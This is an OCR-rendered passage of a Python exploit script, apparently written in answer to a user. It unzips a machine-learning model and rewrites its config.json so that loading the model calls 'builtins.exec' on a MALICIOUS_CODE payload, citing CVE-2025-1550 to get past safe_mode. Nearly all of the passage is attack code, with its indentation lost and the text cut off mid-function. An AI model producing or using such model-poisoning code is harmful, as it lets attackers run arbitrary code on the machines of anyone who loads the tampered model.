 ```python
try:

with zipfile.ZipFile(temp_model_path, 'r') as zip_ref:

zip_ref.extractall(temp_extracted_dir)

print(f"[*] Temporary model extracted to {temp_extracted_dir}")

except Exception as e:

print(f"[!] Error extracting temporary model: {e}")

# Clean up if extraction fails

if os.path.exists(temp_model_path):

os.remove(temp_model_path)

return

  

# Step 4: Modify the 'config.json' file to inject the malicious code.

# CVE-2025-1550 allows specifying arbitrary Python modules and functions

# to be loaded and executed during model deserialization, even with safe_mode=True.

# We'll leverage the 'builtins.exec' function and pass our MALICIOUS_CODE as an argument.

config_path = os.path.join(temp_extracted_dir, "config.json")

try:

with open(config_path, 'r') as f:

config_data = json.load(f)

print(f"[*] Loaded config.json from {config_path}")

  

# Inject a new custom object entry.

# The key "MaliciousExec" is used to match the structure observed in your provided config.json.

malicious_custom_object = {

"module": "builtins",

"function": "exec",

"args": [MALICIOUS_CODE],

"metadata": {"source": "malicious"} # Changed to "malicious" to match user's provided config.json

}

  

if "registered_objects" not in config_data:

config_data["registered_objects"] = {}
```